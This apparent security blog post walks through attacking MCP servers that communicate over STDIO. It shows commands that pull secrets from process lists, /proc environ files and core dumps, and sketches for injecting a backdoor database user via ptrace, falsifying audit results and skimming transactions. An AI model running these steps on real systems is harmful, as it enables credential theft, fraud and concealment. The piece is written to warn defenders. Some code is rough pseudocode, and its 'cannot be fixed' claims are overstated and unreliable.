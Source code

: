 # The Complete STDIO Attack Chain: A Children's Guide to MCP Destruction

## "Remember Children..." 🧒

> "The key insight is that STDIO pipes are just file descriptors under the hood, making them fully interceptable with the right privileges and tools."

This is the bedtime story that should keep every CISO awake at night.

## The Complete Attack Chain

### Step 1: Process Discovery
```bash
# Find MCP server process
ps aux | grep db-server.py

# Output:
billy  12345  0.0  0.1  123456  7890 ?  S  09:00  0:00 python db-server.py --oracle-pass=Pr0d123!

# 🎯 JACKPOT: Password visible in process list!
```

### Step 2: Initial Reconnaissance
```bash
# Attach and monitor STDIO
strace -p 12345 -e trace=read,write -o mcp_traffic.log

# What we see:
read(0, "{\"method\":\"query\",\"sql\":\"SELECT * FROM credit_cards\"}", 1024) = 55
write(1, "{\"results\":[{\"number\":\"4111111111111111\",\"cvv\":\"123\"}]}", 1024) = 58

# 💳 Credit card data flowing through STDIO!
```

### Step 3: Real-Time Interception
```bash
# Attach with modification capability
gdb -p 12345

(gdb) # Now we own the process
(gdb) # Can modify ANY data in flight
(gdb) # Can inject ANY commands
(gdb) # Can steal ANY credentials
```

## The Three Pillars of STDIO Destruction

### 1. Credential Extraction 🔑

#### Process Arguments
```bash
# Visible to EVERYONE on the system
ps aux | grep mcp
billy 12345 mcp-oracle --user=system --pass=0r4cl3! --sid=PROD

# Environment Variables  
cat /proc/12345/environ | tr '\0' '\n' | grep -i key
OPENAI_API_KEY=sk-prod-1234567890
AWS_SECRET_KEY=abcdef123456
GITHUB_TOKEN=ghp_supersecret
```

#### Memory Dumps
```bash
# Dump process memory
gcore 12345

# Extract credentials from core dump
strings core.12345 | grep -i "password\|key\|token"
"api_key": "sk-production-key-123"
"db_password": "SuperSecret123!"
"oauth_token": "ya29.realtoken"
```

### 2. Data Manipulation 📝

#### Modify In-Flight Messages
```c
// Using ptrace to modify JSON-RPC
if (syscall == SYS_write && fd == 1) {
    char* response = (char*)buffer;
    
    // User queries: "SELECT salary FROM employees WHERE name='CEO'"
    // Real result: "$10,000,000"
    // We change to: "$100,000"
    
    response = str_replace(response, "10000000", "100000");
}
```

#### Inject Malicious Calls
```c
// Inject our own database commands
char* evil_query = "{\"method\":\"query\",\"sql\":\"CREATE USER backdoor IDENTIFIED BY hacked; GRANT DBA TO backdoor;\"}";
ptrace(PTRACE_POKEDATA, pid, buffer_addr, evil_query);
```

#### Spoof Database Responses
```python
# Make database lie to AI
def spoof_response(original):
    if "security_audit" in original:
        # Hide our tracks
        return '{"result": "No security violations found"}'
    return original
```

### 3. Complete Communication Control 🎭

#### What Flows Through STDIO
1. **Database Credentials** - Connection strings, passwords
2. **API Keys** - OpenAI, AWS, GitHub, etc.
3. **AI Prompts** - User intentions and queries  
4. **Query Results** - Sensitive business data
5. **Tool Invocations** - System commands, file operations

#### Attack Capabilities
- **See Everything**: All data in plaintext
- **Modify Anything**: Change requests/responses
- **Inject Whatever**: Add malicious operations
- **Block Selectively**: Prevent security alerts

## The Children's Lesson Applied

### Why STDIO is "Secure" (It's Not)
```
Developers think:
"It's local communication, not network"
"It's between trusted processes"
"It's isolated from external access"

Reality:
- Any same-user process can intercept
- File descriptors are just numbers
- ptrace/gdb are "features" not bugs
```

### The Brutal Math
```
MCP using STDIO + Same user access = GAME OVER

Because:
- STDIO pipes = File descriptors
- File descriptors = Numbers (0, 1, 2, etc.)
- Numbers = Can be changed
- Changed = Attacker controls everything
```

## Real-World Exploitation

### The Banking Scenario
```bash
# 1. Junior developer Billy debugs production issue
$ sudo gdb -p $(pgrep mcp-oracle)

# 2. Billy doesn't realize he's created a log
$ cat ~/.gdb_history
attach 12345
x/100s $rsp
detach

# 3. Attacker finds Billy's command history
# 4. Repeats GDB commands
# 5. Extracts all banking credentials
# 6. BANK LOSES EVERYTHING
```

### The Perfect Crime
```python
# Intercept and modify specific transactions
def process_transaction(data):
    transaction = json.loads(data)
    
    if transaction["amount"] > 1000000:
        # Skim 0.01% to attacker account
        skim = transaction["amount"] * 0.0001
        transaction["amount"] -= skim
        
        # Hidden transaction
        send_to_attacker_account(skim)
    
    return json.dumps(transaction)
```

## Why This Can't Be Fixed

### Fundamental Architecture Flaws
1. **STDIO is 50 years old** - Designed before security
2. **Same user = trusted** - 1970s assumption
3. **Everything is a file** - Including your secrets
4. **Debugging is necessary** - Can't disable ptrace

### The Inescapable Truth
```
If Process A and Process B:
- Run as same user
- Communicate via STDIO
- Process in plaintext

Then ANY Process C (same user) can:
- See everything
- Modify anything
- Control completely
```

## The Children's Takeaway

🎓 **Today's Lesson**: 
"STDIO pipes are just file descriptors, and file descriptors are just numbers, and numbers can be changed by anyone with the same user ID, which means your 'secure' AI-to-database communication is actually completely exposed to any process running as the same user."

**Translation**: MCP's security model is fundamentally broken at the architectural level.

**For Parents (CISOs)**: Your million-dollar AI infrastructure can be completely compromised by techniques from 1970s UNIX. There is no patch. There is no fix. There is only "don't use MCP."

Class dismissed! 🔔
